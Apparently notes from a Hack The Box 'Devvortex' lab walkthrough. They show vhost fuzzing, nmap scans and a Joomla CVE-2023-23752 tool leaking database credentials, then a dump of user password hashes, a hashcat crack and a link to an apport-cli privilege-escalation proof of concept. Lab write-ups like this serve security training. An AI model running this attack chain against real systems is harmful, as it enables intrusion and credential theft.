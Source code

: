 # nmap scanning

`nmapinit devvortex.htb`

# vhost scanning

```
$ ffuf -w /usr/share/wordlists/dirb/big.txt:FUZZ -u http://devvortex.htb -H "Host:FUZZ.devvortex.htb" -c -mc 200    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

[Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 317ms]
    * FUZZ: dev

:: Progress: [20469/20469] :: Job [1/1] :: 205 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```

# nmap init

```
$ nmapinit dev.devvortex.htb
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-22 10:47 MDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating SYN Stealth Scan at 10:47
Scanning dev.devvortex.htb (10.129.87.188) [1000 ports]
Discovered open port 80/tcp on 10.129.87.188
Discovered open port 22/tcp on 10.129.87.188
Completed SYN Stealth Scan at 10:47, 0.89s elapsed (1000 total ports)
Initiating Service scan at 10:47
Scanning 2 services on dev.devvortex.htb (10.129.87.188)
Completed Service scan at 10:47, 6.12s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.87.188.
Initiating NSE at 10:47
Completed NSE at 10:47, 3.44s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.24s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Nmap scan report for dev.devvortex.htb (10.129.87.188)
Host is up (0.055s latency).
rDNS record for 10.129.87.188: devvortex.htb
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Devvortex
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.91 seconds
           Raw packets sent: 1000 (44.000KB) | Rcvd: 1000 (40.008KB)

```

# Auth bypass

https://github.com/ThatNotEasy/CVE-2023-23752

```

█████╗ ██████╗  █████╗  ██████╗  ██████╗ ███╗   ██╗███████╗ ██████╗ ██████╗  ██████╗███████╗   ██╗ ██████╗ 
██╔══██╗██╔══██╗██╔══██╗██╔════╝ ██╔═══██╗████╗  ██║██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔════╝   ██║██╔═══██╗
██║  ██║██████╔╝███████║██║  ███╗██║   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██║     █████╗     ██║██║   ██║
██║  ██║██╔══██╗██╔══██║██║   ██║██║   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝     ██║██║   ██║
██║  ██║██╔══██╗██╔══██║██║   ██║██║   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝     ██║██║   ██║
██████╔╝██║  ██║██║  ██║╚██████╔╝╚██████╔╝██║ ╚████║██║     ╚██████╔╝██║  ██║╚██████╗███████╗██╗██║╚██████╔╝
╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝  ╚═════╝ ╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═╝╚═╝ ╚═════╝ 
═════════════╦═════════════════════════════════╦════════════════════════════════════════════════════════════
╔════════════╩═════════════════════════════════╩═════════════════════════════╗
║ • AUTHOR                 |   PARI MALAM                                    ║
║ • GITHUB                 |   GITHUB.COM/PARI-MALAM                         ║
╔════════════════════════════════════════════════════════════════════════════╝
║ • OFFICIAL FORUM         |   DRAGONFORCE.IO                                ║
║ • OFFICIAL TELEGRAM      |   @DRAGONFORCE.IO                               ║
╚════════════════════════════════════════════════════════════════════════════╝
[CVE-2023-23752] - Authentication Bypass Information Leak on Joomla!

[1] - Single Scan
[2] - Massive Scan

[CVE-2023-23752]: 1

IP/Domain: dev.devvortex.htb

[CVE-2023-23752] - dev.devvortex.htb .: [Scanning!]

[+] Domain            : dev.devvortex.htb
[+] Database Type     : mysqli
[+] Database Prefix   : sd4fg_
[+] Database          : joomla
[+] Hostname          : localhost
[+] Username          : lewis
[+] Password          : P4ntherg0t1n5r3c0n##
```

# suid stuff

`find / -perm 4000 2>/dev/null`


# mysql db connected with db creds from above

mysql> SELECT * FROM sd4fg_users
SELECT * FROM sd4fg_users
    -> ;
;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-03-22 18:36:07 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)

# Hashcat

`hashcat -m 3200 -a 0 ./hash /usr/share/wordlists/rockyou.txt`

tequieromucho

# sudo -l

```
$ sudo -l            sudo -l
sudo -l
[sudo] password for logan: tequieromucho


Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

# priv esc with apport-cli

https://diegojoelcondoriquispe.medium.com/cve-2023-1326-poc-c8f2a59d0e00
